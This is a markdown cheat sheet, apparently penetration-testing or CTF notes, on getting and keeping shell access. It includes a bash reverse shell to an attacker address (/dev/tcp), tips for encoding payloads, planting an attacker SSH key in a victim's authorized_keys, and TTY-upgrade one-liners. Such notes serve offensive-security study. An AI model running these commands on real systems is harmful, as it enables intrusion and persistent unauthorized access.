 ```yaml
---
sort : 1
---
```


# Get A Shell

## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

* if it is a bash reverse shell, e.g. bash -i >& /dev/tcp/10.10.x.x/1234 0>&1 , try precede it with `bash -c` 


* try URL encoding / double URL encoding


* quotations conflict, how to deal with it ??
    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```

</br></br>

## SSH 

### Password Reuse Misconfiguration OR Private Key Leakage : 

```bash
$ ssh Username@Host
    password : ******* 

$ ssh -i PrivateKey Username@Host
```


### Connecting Via SSH is Better ? (.ssh)

you already having a shell ...  

```bash
# On the victim machine

# if you can write on the user dir (create files/dirs)
$ mkdir ".ssh"; cd .ssh ; touch authorized_keys
```

```bash
# On the attacker machine

$ cd /tmp; ssh-keygen  
    # Generating public/private rsa key pair.
    Enter file in which to save the key (/home/o54ma/.ssh/id_rsa): TmpKey # file name to save the key 
    Enter passphrase (empty for no passphrase): 						  # no password 
    Enter same passphrase again: 								          # no password 


$ cat TmpKey.pub | xclip -selection c                                 # copy the public key
```

```bash
# Back to the victim side

$ echo "CTRL+V" >> authorized_keys
```

```bash
# Back to the attacker side

$ ssh -i TmpKey Username@Host
```



### BruteForce Attack

not recommended ^^ :star:


</br></br>



# Spawn a TTY shell 

```bash
# Python
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Script 
$ script /dev/null -c bash

# sh
$ /bin/sh -i

# bash
$ /bin/bash -i

# Echo
$ echo 'os.system('/bin/bash')'

# Perl
$ perl -e 'exec "/bin/sh";'

# From within VI
:!bash
```

```bash
$ export TERM=xterm-256color
$ export SHELL=BASH

# CTRL-Z
$ stty raw -echo; fg
# Enter twice
```